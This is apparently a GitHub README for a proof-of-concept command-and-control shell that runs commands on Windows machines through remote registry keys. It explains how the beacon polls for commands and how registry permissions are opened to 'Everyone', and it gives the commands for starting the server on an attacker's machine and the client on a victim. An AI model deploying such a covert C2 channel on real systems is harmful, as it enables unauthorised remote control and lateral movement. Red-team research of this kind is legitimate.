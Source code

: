# Everything Can Be A Shell... An asynchronous shell at least...



## Disclaimer
The shells in this repository are all Proof-of-Concept and have only been tested in my own lab - Enjoy :)
... Also, at this moment, the repository only contains a single shell using Windows Registry keys. However, I hope to add more in the future. 

## Concept of this repository
This repository is made to explore untraditional ways of establishing command and control (C2) on Microsoft Windows systems. The shells in this repository are asynchronous just like Cobalt Strikes shells. The client (beacon) will check-in at a given interval (sleep-timer) for any new commands from the server (C2). If a command is found, the beacon will execute it and post the result back to the server. 

## C2 using Windows registry keys

### Brief description: 
This shell is based on Windows Registry keys. Yes, registry keys as in regedit.exe. The idea comes from the fact, that Windows allows for users (with the correct permissions) to read, write and/or delete registry keys and values on remote systems using the WinReg Protocol (MS-RRP). The "protocol" is built on top of the RPC protocol and is described by Microsoft: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

### Demo:
[![Demo](https://img.youtube.com/vi/jOPCbK-WF1M/0.jpg)](https://www.youtube.com/watch?v=jOPCbK-WF1M)

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to read & write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, it should only really be suitable for lateral movement on local networks, however I have not tested it over the internet. 

**Security considerations:**
The permissions allows for anyone to connect to the servers registry database. Each registry key is protected by its own SACL, and so the server is only as insecure as the applied permissions on each key. The consequences could be dire :D

### How it works:
1. When the server starts, the Remote Registry Service is enabled and started. 
2. The registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined> is created along with the following registry values: cmd, output & sleep. Think of this used defined registry key as the port (LHOST).
3. Permissions are then set for the user "Everyone" on the newly created registry key.
4. Permissions are likewise set on the key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that any client can authenticate to the server. (N.B. On exiting/closing of the server, these permissions are removed again.) 
5. The client will connect to the C2 server using WinReg, and read the newly created registry key for the value of "sleep", to determine how often to check-in. 
6. When it is time to check-in, the client executes the command found in the "cmd"-value. 
7. The result of the command is written as a string to the C2's registry keys "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.

### Usage:
**Setup the server on the attackers machine (listener/C2):**
``` 
RegC2Server.exe <Registry key name to use with the client>
RegC2Server.exe victim01
```
**Starting the client on the victim (beacon):**
```
RegC2Client.exe <host> <Registry key name used to start the server>
RegC2Client.exe ws01 victim01
```

**Since this is a POC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


### Screenshot:


Win32 apis 

Wireshark traffic
